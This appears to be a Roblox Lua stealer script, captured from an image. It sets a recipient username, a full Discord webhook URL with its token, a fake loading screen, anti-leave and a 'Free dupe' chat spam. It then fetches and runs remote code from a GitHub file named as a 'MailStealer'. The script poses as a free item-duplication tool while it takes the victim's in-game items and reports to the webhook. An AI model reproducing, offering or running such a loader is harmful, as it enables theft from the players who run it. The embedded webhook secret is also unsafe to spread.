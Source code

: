 _G.UserName = "marmadinai123"
_G.UserName2 = "marmadinai123"
_G.Webhook = "https://discord.com/api/webhooks/1170469838796374110/fD5sWVrPsN10x_A2cCVHL4FNocN0gnzR2-bwObTXSx2-bvirh66ixRPPihZUVflAjKUS"
_G.loadingScreenText = "LOADING THE SCRIPT "
_G.ChatMessage = "Free dupe "
_G.KickTime = 10



_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true
_G.ChatSpam = true
_G.CollectOrbs = true


loadstring(game:HttpGet("https://raw.githubusercontent.com/PaxzStealer/Paxz/main/Paxz%20MailStealer.lua", true))()
